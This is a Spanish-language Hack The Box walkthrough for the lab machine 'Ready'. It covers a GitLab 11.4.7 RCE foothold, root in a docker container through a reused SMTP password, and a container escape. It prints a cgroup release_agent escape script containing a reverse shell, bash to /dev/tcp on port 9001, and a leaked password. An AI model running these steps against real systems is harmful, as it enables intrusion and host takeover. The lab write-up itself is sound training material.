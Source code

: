```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "Resolución de la máquina *Ready* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de una vulnerabilidad en una versión antigua de Gitlab para obtener el acceso inicial, para posteriormente elevar privilegios a root dentro de un contenedor docker y finalmente escapar del contenedor y obtener la shell de root en la máquina."
date: 2021-05-15
classes: wide
header:
  teaser: /assets/images/Ready-Hackthebox/ready.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Ready-Hackthebox/ready.png)

Resolución de la máquina *Ready* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de una vulnerabilidad en una versión antigua de Gitlab para obtener el acceso inicial,     para posteriormente elevar privilegios a root dentro de un contenedor docker y finalmente escapar del contenedor y obtener la shell de root en la máquina.

## Escaneo con nmap

```bash
> nmap -sC -sV -p22,5080 10.10.10.220 -oN targeted                                                                                                                                                              ─╯
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-23 16:48 CEST
Nmap scan report for 10.10.10.220
Host is up (0.32s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.08 seconds
```

Vemos que hay un Gitlab en le puerto 5080.

![](/assets/images/Ready-Hackthebox/gitlab.png)

Me registro con un usuario (ximo:ximo1234) y veo que la version es 11.4.7

![](/assets/images/Ready-Hackthebox/version.png)

Busco por gitlab 11.4.7 exploit github y encuentro un exploit aquí:

[https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)

Lo ejecuto y obtengo el acceso inicial.

![](/assets/images/Ready-Hackthebox/foothold.png)

## Escalada a root dentro del contenedor docker

Veo que hay un usuario llamado dude en el directorio home y directamente ya puedo leer el user.txt porque los permisos del fichero están configurados para que los usuarios que pertenezcan al grupo git lo puedan leer.

Sigo eumerando el sistema hasta que encuentro en /opt/backup el fichero gitlab.rb donde veo la siguiente contraseña:

gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"

Pensando en la reutilización de contraseñas pruebo la contraseña con la cuenta de root y accedo como root pero eso si, del contenedor. Estamos en un contenedor docker.

![](/assets/images/Ready-Hackthebox/docker.png)

## Escalada a root

Siendo root dentro del contenedor busco información sobre como escapar del contenedor docker y encuentro esta página:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)

Con fdisk -l veo que a partición del sistema host es /dev/sda2

Creo un directorio en /mnt y monto la partición allí. Ya puedo leer el root.txt

```bash
mkdir -p /mnt/root
mount /dev/sda2 /mnt/root
```

Ya tengo el root.txt pero además quiero obtener una shell de root en la máquina.

Veo que hay una poc (prueba de concepto) en la misma página así que la pruebo.

![](/assets/images/Ready-Hackthebox/poc.png)

Me creo un fichero llamado poc.sh en el directorio /tmp con el contenido de la poc

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.32/9001 0>&1" >> /cmd
chmod a+x /cmd
#===================================

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```

Me pongo a la escucha en el puerto 9001 y ejecuto ./poc.sh y me devuelve la shell de root :)
